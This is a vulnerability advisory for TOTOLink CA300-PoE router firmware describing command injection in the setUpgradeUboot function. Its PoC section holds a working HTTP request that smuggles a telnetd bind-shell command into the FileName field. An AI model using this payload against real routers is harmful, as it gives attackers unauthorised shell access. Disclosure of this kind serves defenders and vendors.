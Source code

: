 # TOTOLink Vulnerability

Vendor:TOTOLink

Product:CA300-PoE

Version:V6.2c.884

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLink router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `upgrade.so` binary:

In `setUpgradeUboot` function, `FileName` is directly passed by the attacker, so we can control the `FileName` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `FileName` as **`telnetd -l /bin/sh -p 1113`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 104
Origin: http://192.168.0.3
Connection: close
Referer: http://192.168.0.3/adm/status.asp
Cookie: SESSION_ID=2:1750081276:2
Pragma: no-cache
Cache-Control: no-cache

{"topicurl":"setting/setUpgradeUboot","FileName":"`telnetd -l /bin/sh -p 1113`","ContentLength":"1"}
```



## Result

Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>
